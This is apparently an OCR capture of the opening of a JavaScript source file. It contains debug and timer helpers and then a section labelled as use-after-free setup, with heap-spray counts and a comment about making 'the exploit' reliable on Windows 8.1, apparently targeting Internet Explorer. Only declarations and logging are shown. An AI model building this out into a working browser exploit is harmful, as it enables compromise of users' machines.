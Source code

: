     ////////
    ////////
    // Debug/timer code
    ////////

    var TimeStart;
    var ReadCount;
    var ScriptTimeStart = new Date().getTime();

    function StartTimer() {
        ReadCount = 0;
        TimeStart = new Date().getTime();
    }

    function EndTimer(Message) {
        var TotalTime = (new Date().getTime() - TimeStart);

        if(EnableTimers) {
            if(AlertOutput) {
                alert("TIME ... " + Message + " time elapsed: " + TotalTime.toString(10) + " read count: " + ReadCount.toString(10));
            }
            else {
                console.log("TIME ... " + Message + " time elapsed: " + TotalTime.toString(10) + " read count: " + ReadCount.toString(10));
            }
        }
    }

    function DebugLog(Message) {
        if(EnableDebug) { // When debug is enabled the distinction between "stack overflow" and "out of memory" errors are lost: console always determines there to be an "out of memory" condition even though this only sppears after scoping of SortDepth is changed.
            if(AlertOutput) {
                alert(Message);
            }
            else {
                console.log(Message); // In IE, console only works if devtools is open.
            }
        }
    }

    ////////
    ////////
    // UAF/untracked variable creation code
    ////////

    var UntrackedVarSet;
    var VarSpray;
    var VarSprayCount = 20000; // 200 GcBlocks
    var NameListAnchors;
    var NameListAnchorCount = 0; // The larger this number the more reliable the exploit on Windows 8.1 where LFH cannot easily re-claim
    var SortDepth = 0;
